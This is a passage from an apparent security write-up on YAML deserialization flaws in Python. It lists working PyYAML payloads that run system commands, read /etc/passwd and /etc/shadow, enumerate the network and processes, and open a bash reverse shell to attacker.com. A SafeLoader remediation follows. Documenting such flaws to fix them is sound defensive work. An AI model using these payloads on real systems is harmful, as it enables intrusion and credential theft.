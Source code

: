 ```bash
  "status": "success",
  "result": "root",
  "execution_time": "0.001s"
}
```

#### **Advanced RCE Payloads:**
```yaml
# Basic command execution
!!python/object/apply:subprocess.call [['whoami']]

# File system access
!!python/object/apply:subprocess.call [['cat', '/etc/passwd']]
!!python/object/apply:subprocess.call [['cat', '/etc/shadow']]

# Network reconnaissance
!!python/object/apply:subprocess.call [['netstat', '-an']]
!!python/object/apply:subprocess.call [['ifconfig']]

# Process enumeration
!!python/object/apply:subprocess.call [['ps', 'aux']]

# Reverse shell (advanced)
!!python/object/apply:subprocess.call [['bash', '-c', 'bash -i >& /dev/tcp/attacker.com/4444 0>&1']]

# Alternative RCE methods
!!python/object/apply:os.system ['id']
!!python/object/apply:eval ['__import__("os").system("whoami")']
```

#### **Remediation:**
```python
# Secure YAML processing with SafeLoader
import yaml

def process_yaml_safely(data):
    # Use SafeLoader to prevent code execution
    try:
        result = yaml.safe_load(data)
        return result
    except yaml.YAMLError as e:
        raise ValueError(f"Invalid YAML: {e}")

# Alternative: Custom safe loader
class SafeYAMLLoader(yaml.SafeLoader):
    def construct_python_object(self, node):
        raise yaml.ConstructorError(
            None, None, "Python objects not allowed", node.start_mark
        )

def process_yaml_custom(data):
    loader = SafeYAMLLoader
    loader.add_constructor('!!python/object', loader.construct_python_object)
    return yaml.load(data, Loader=loader)
```
